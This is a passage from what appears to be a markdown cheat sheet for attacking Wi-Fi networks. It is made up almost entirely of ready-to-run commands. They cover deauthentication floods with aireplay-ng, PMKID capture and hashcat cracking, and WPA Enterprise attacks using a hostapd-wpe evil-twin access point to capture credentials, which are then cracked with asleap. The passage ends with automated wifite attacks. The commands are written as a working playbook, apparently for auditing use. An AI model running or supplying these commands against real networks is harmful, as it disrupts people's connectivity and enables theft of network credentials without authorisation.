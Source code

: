 ```bash
# Deauth specific client
sudo aireplay-ng -0 0 -a AA:BB:CC:DD:EE:FF -c CLIENT:MAC wlan0mon

# Deauth all clients (broadcast)
sudo aireplay-ng -0 0 -a AA:BB:CC:DD:EE:FF wlan0mon

# Limited deauth packets
sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0mon
```

### 7. PMKID Attack

```bash
# Capture PMKID (no clients needed)
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1

# Convert to hashcat format
hcxpcapngtool -o pmkid.hc22000 capture.pcapng

# Crack with hashcat
hashcat -m 22000 pmkid.hc22000 wordlist.txt
```

### 8. WPA Enterprise Attacks

```bash
# Capture RADIUS traffic
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w enterprise wlan0mon

# Evil Twin for credential capture
# Use hostapd-wpe (Wireless Pwnage Edition)
sudo hostapd-wpe hostapd-wpe.conf

# Crack captured hashes
asleap -C challenge -R response -W wordlist.txt
```

## Automated Wireless Auditing

### Wifite

```bash
# Automated wireless auditing
sudo wifite

# Attack specific target
sudo wifite --bssid AA:BB:CC:DD:EE:FF

# WPS-only attacks
sudo wifite --wps

# Skip WPS attacks
sudo wifite --no-wps
```
